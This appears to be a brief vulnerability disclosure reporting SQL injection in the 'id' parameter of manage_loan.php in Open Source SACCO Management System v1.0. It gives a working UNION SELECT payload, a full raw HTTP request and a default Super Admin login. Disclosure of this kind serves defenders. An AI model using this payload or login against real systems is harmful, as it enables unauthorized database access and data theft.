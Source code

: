# Open Source SACCO Management System v1.0 by mayuri_k has SQL injection

BUG_Author: 足够努力。

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15372/open-source-sacco-management-system-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /sacco_shield/manage_loan.php

Vulnerability location: /sacco_shield/manage_loan.php?id=, id

dbname = sacco,length=5

[+] Payload: /sacco_shield/manage_loan.php?id=-1%20union%20select%201,2,3,4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /sacco_shield/manage_loan.php?id=-1%20union%20select%201,2,3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191198021-a34e185f-3d27-40ee-8984-73cdae40cc52.png)
